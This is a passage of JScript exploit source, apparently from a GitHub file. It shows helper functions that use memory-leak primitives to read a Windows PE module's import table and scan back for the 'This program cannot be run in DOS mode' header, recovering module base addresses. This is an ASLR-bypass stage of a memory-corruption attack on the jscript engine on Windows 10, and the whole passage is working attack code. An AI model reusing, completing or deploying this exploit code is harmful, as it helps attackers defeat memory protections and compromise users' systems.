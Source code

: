         while(ImportSize != 0) {
            var NameRva = LeakDword64(MakeQword(DescriptorAddress.high, DescriptorAddress.low + 0xc)); // 0xc is the offset to the module name pointer

            if(NameRva != 0) {
                if(StrcmpLeak64(TargetModuleNameTable, MakeQword(ModuleBase.high, ModuleBase.low + NameRva))) {
                    var ThunkRva = LeakDword64(MakeQword(DescriptorAddress.high, DescriptorAddress.low + 0x10));
                    ExtractedAddresss = LeakQword64(MakeQword(ModuleBase.high, ModuleBase.low + ThunkRva + 0x18)); // +0x18 (4 thunks forwarded) since __imp___C_specific_handler can cause issues when imported in some jscript instances, and similarly on Windows 10 the 2nd import is ResolveDelayLoadedAPI which is forwarded to NTDLL.DLL.
                    break;
                }

                ImportSize -= 0x14;
                DescriptorAddress.low += 0x14; // Next import descriptor in array
            }
            else {
                break;
            }
        }

        return ExtractedAddresss;
    }

    function DiveModuleBase64(Address) {
        Address.low = (Address.low & 0xFFFF0000) + 0x4e; // Offset of "This program cannot be run in DOS mode" in PE header.

        while(true) {
            if(LeakWord64(Address) == 0x6854) { // 'hT'
                if(LeakWord64(MakeQword(Address.high, Address.low + 2)) == 0x7369) { // 'si'
                    return MakeQword(Address.high, Address.low - 0x4e);
                }
            }

            Address.low -= 0x10000;
        }

        return MakeQword(0, 0);
    }

    function BaseFromImports64(ModuleBase, TargetModuleNameTable) {
        var RandomImportAddress = SelectRandomImport64(ModuleBase, TargetModuleNameTable);

        if(RandomImportAddress.low || RandomImportAddress.high) {
            return DiveModuleBase64(RandomImportAddress);
        }

        return MakeQword(0, 0);
    }

    ////////
    ////////
    // Misc. helper functions
    ////////
